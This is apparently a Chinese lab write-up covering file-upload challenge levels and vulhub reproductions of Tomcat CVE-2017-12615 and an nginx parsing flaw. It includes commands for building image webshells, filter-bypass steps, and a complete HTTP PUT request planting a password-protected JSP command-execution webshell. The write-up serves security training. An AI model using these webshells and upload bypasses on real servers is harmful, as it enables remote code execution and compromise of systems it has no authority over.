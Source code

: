 ![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627433334141-cb693e43-53e8-4e28-80b9-b2c08e23f2f6.png?x-oss-process=image%2Fresize%2Cw_752%2Cresize%2Cw_752#from=url&id=FamVM&originHeight=1203&originWidth=752&originalType=binary&ratio=1&status=done&style=none)

```bash
copy 1.png /b + shell.php /a webshell.jpg

文件头检测
图像文件信息判断
逻辑安全=二次渲染
逻辑安全-条件竞争目录命名-x.php/.
脚本函数漏洞-CVE-2015-2348
数组接受+目录命名
```

---

`copy 1.png /b + shell.php /a webshell.jpg`意思是将shell.php中的代码追加到1.png中并重新生成一个叫webshell.php的代码。

<a name="xHRAm"></a>
### 第十三关

用上面的代码制作成图片马然后正常上传，获取到图片的地址。然后打开文件包含漏洞页面<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627616865908-81e0690a-ebd9-4666-94ef-42bd9e5719e8.png#clientId=u5c1d2ced-034b-4&from=paste&height=236&id=ufa4ee96f&originHeight=471&originWidth=1386&originalType=binary&ratio=1&size=48805&status=done&style=none&taskId=u32702ba4-ba5c-4951-ba2e-add6b8a7d90&width=693)<br />将刚才上传的图片作为参数发送给服务器。然后获取到webshell<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627616932146-1e0a32d1-87ef-4725-8ee6-475da2e2611b.png#clientId=u5c1d2ced-034b-4&from=paste&height=389&id=u428d44af&originHeight=778&originWidth=1920&originalType=binary&ratio=1&size=189825&status=done&style=none&taskId=ucc5203c2-d10a-43ec-9352-d6770f30492&width=960)<br />也可以用蚁剑这种工具拿下webshell<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627617044887-4b7af82a-2476-4847-91b6-34b66edd013c.png#clientId=u5c1d2ced-034b-4&from=paste&id=u3189d237&originHeight=866&originWidth=1284&originalType=binary&ratio=1&size=126653&status=done&style=none&taskId=u36c15a05-14b6-4153-bb73-ae5c7727888)
<a name="B6UT6"></a>
### 第十四关
```bash
function isImage($filename){
    $types = '.jpeg|.png|.gif';
    if(file_exists($filename)){
        $info = getimagesize($filename);
        $ext = image_type_to_extension($info[2]);
        if(stripos($types,$ext)){
            return $ext;
        }else{
            return false;
        }
    }else{
        return false;
    }
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $res = isImage($temp_file);
    if(!$res){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").$res;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}
```
`getimagesize`代码的核心就是使用这个函数这个函数会对文件头进行验证，比如GIF的文件头问`GIF89a`png的文件头为`塒NG`，所以此处正常上传一个图片马将后缀改名为PHP即可<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627638312770-be323ee8-6db9-4abe-87f2-f160b51dc1c4.png#clientId=u5c1d2ced-034b-4&from=paste&height=259&id=uf9253450&originHeight=517&originWidth=1676&originalType=binary&ratio=1&size=100747&status=done&style=none&taskId=u60dd9623-d91d-4bd4-8a05-54816d57c61&width=838)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627638365997-ce0e7b45-871a-4de2-9079-b30598db9d9a.png#clientId=u5c1d2ced-034b-4&from=paste&height=394&id=u302d0205&originHeight=788&originWidth=1920&originalType=binary&ratio=1&size=143172&status=done&style=none&taskId=ua07dc811-5d82-4277-8072-4e31f2a9e96&width=960)
<a name="Zjq5P"></a>
### 第十五关
和上面的一关基本是一样的只需要正常的上传然后结合文件包含漏洞利用。

<a name="qkxK1"></a>
### 第十六关
[https://xz.aliyun.com/t/2657#toc-13](https://xz.aliyun.com/t/2657#toc-13)<br />[https://blog.csdn.net/m0_46436640/article/details/107809772](https://blog.csdn.net/m0_46436640/article/details/107809772)<br />这一关的难度相对来说比较大，因为文件的验证比较复杂。
```bash
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])){
    // 获得上传文件的基本信息，文件名，类型，大小，临时文件路径
    $filename = $_FILES['upload_file']['name'];
    $filetype = $_FILES['upload_file']['type'];
    $tmpname = $_FILES['upload_file']['tmp_name'];

    $target_path=UPLOAD_PATH.basename($filename);

    // 获得上传文件的扩展名
    $fileext= substr(strrchr($filename,"."),1);

    //判断文件后缀与类型，合法才进行上传操作
    if(($fileext == "jpg") && ($filetype=="image/jpeg")){
        if(move_uploaded_file($tmpname,$target_path))
        {
            //使用上传的图片生成新的图片
            $im = imagecreatefromjpeg($target_path);

            if($im == false){
                $msg = "该文件不是jpg格式的图片！";
                @unlink($target_path);
            }else{
                //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".jpg";
                $newimagepath = UPLOAD_PATH.$newfilename;
                imagejpeg($im,$newimagepath);
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.$newfilename;
                @unlink($target_path);
                $is_upload = true;
            }
        } else {
            $msg = "上传出错！";
        }

    }else if(($fileext == "png") && ($filetype=="image/png")){
        if(move_uploaded_file($tmpname,$target_path))
        {
            //使用上传的图片生成新的图片
            $im = imagecreatefrompng($target_path);

            if($im == false){
                $msg = "该文件不是png格式的图片！";
                @unlink($target_path);
            }else{
                 //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".png";
                $newimagepath = UPLOAD_PATH.$newfilename;
                imagepng($im,$newimagepath);
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.$newfilename;
                @unlink($target_path);
                $is_upload = true;               
            }
        } else {
            $msg = "上传出错！";
        }

    }else if(($fileext == "gif") && ($filetype=="image/gif")){
        if(move_uploaded_file($tmpname,$target_path))
        {
            //使用上传的图片生成新的图片
            $im = imagecreatefromgif($target_path);
            if($im == false){
                $msg = "该文件不是gif格式的图片！";
                @unlink($target_path);
            }else{
                //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".gif";
                $newimagepath = UPLOAD_PATH.$newfilename;
                imagegif($im,$newimagepath);
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.$newfilename;
                @unlink($target_path);
                $is_upload = true;
            }
        } else {
            $msg = "上传出错！";
        }
    }else{
        $msg = "只允许上传后缀为.jpg|.png|.gif的图片文件！";
    }
}
```
先上传一张图片马然后下载，将下载的图片马和原先的图片进行对比，发现没有被渲染的位置插入PHP代码最后在上传，再下载观察PHP代码是否被渲染。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627695097473-505e8510-5117-4f80-b6b5-a4f496bba319.png#clientId=u3e8c1e42-6f17-4&from=paste&height=441&id=u28740154&originHeight=881&originWidth=1616&originalType=binary&ratio=1&size=266520&status=done&style=none&taskId=u9a827758-4497-4d90-b038-ff0fd183bab&width=808)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627695179739-c35c7099-87c4-4215-9a05-5bd511c2769d.png#clientId=u3e8c1e42-6f17-4&from=paste&height=223&id=u7ba69a82&originHeight=445&originWidth=1510&originalType=binary&ratio=1&size=675269&status=done&style=none&taskId=u04dde36b-3936-40e9-8232-c837be5c682&width=755)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627695201518-dd5e1504-896e-49c4-bb6b-e929369ec41e.png#clientId=u3e8c1e42-6f17-4&from=paste&height=400&id=u50f0193e&originHeight=799&originWidth=1482&originalType=binary&ratio=1&size=113710&status=done&style=none&taskId=u5746b7b7-89f4-4768-b568-cae01759f3d&width=741)
<a name="inXuT"></a>
### 第十七关





<a name="MvIye"></a>
### 中间件解析漏洞
![1197910-20210105192205385-1287793433.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627704450243-9bee5bef-7b03-48e4-975a-d94440fb63ed.png#clientId=u3e8c1e42-6f17-4&from=paste&height=267&id=SJjO5&originHeight=533&originWidth=1409&originalType=binary&ratio=1&size=624877&status=done&style=none&taskId=u635cef3f-c12e-4d39-9135-ace16de1bb1&width=704.5)

<a name="AtdBJ"></a>
#### tomcat文件解析漏洞
CVE-2017-12615<br />环境搭建[https://vulhub.org/#/environments/tomcat/CVE-2017-12615/](https://vulhub.org/#/environments/tomcat/CVE-2017-12615/)

```bash
jiang@ubuntu:/opt/vulhub/vulhub-master/tomcat/CVE-2017-12615$ docker-compose up -d
```
访问ip:port<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627704006227-5188cc28-06a4-4ff2-b5d0-0a289d3114e8.png#clientId=u3e8c1e42-6f17-4&from=paste&height=334&id=ua5627b5a&originHeight=667&originWidth=1628&originalType=binary&ratio=1&size=173439&status=done&style=none&taskId=u7321a71b-84aa-471e-8478-a45d4d47b7b&width=814)<br />burp修改数据包
```bash
PUT /1.jsp/ HTTP/1.1
Host: 10.1.1.7:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 750


<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%>
     
    <%!public static String excuteCmd(String c) {
     
    StringBuilder line = new StringBuilder();
     
    try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));
     
    String temp = null;while ((temp = buf.readLine()) != null) {
     
    line.append(temp+"\n");}buf.close();} catch (Exception e) {
     
    line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){
     
    out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
```
访问`[http://10.1.1.7:8080/1.jsp?&pwd=023&cmd=id](http://10.1.1.7:8080/1.jsp?&pwd=023&cmd=id)`<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627704086445-3cb3d0fb-27e1-4d41-ab42-77f01a7520ee.png#clientId=u3e8c1e42-6f17-4&from=paste&height=173&id=u499d43bf&originHeight=264&originWidth=1139&originalType=binary&ratio=1&size=18726&status=done&style=none&taskId=ua7d8f7ae-ddb5-4d95-bc51-447a0918254&width=747.5)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627704132499-62b1b8f0-ebc1-433d-b54c-67b865630c99.png#clientId=u3e8c1e42-6f17-4&from=paste&id=ufb0de49d&originHeight=513&originWidth=1204&originalType=binary&ratio=1&size=51167&status=done&style=none&taskId=ufffca1e6-3cc1-4ab1-b78e-2f7537fd278)
<a name="Vn1qJ"></a>
#### nginx解析漏洞
环境搭建:[https://vulhub.org/#/environments/nginx/nginx_parsing_vulnerability/](https://vulhub.org/#/environments/nginx/nginx_parsing_vulnerability/)
```bash
jiang@ubuntu:/opt/vulhub/vulhub-master/nginx/nginx_parsing_vulnerability$ pwd
/opt/vulhub/vulhub-master/nginx/nginx_parsing_vulnerability
jiang@ubuntu:/opt/vulhub/vulhub-master/nginx/nginx_parsing_vulnerability$ docker-compose up -d
```
正常上传一张图片马<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627718069629-b96ac2d8-254e-41b7-8a0c-a3610bd883f9.png#clientId=u1a9617f7-55b9-4&from=paste&id=u9a83cd8b&originHeight=621&originWidth=1249&originalType=binary&ratio=1&size=277668&status=done&style=none&taskId=ua5a5c06c-2002-48da-b54f-dc73c8a480c)<br />然后在URL后面添加/xx.php 文件名随便<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627718136736-4aca7e60-49ff-471d-a770-c91a30f080c0.png#clientId=u1a9617f7-55b9-4&from=paste&height=403&id=u8680a82b&originHeight=806&originWidth=1582&originalType=binary&ratio=1&size=214451&status=done&style=none&taskId=u24cc7dbb-601d-4fbd-8c01-38b8decb9cd&width=791)
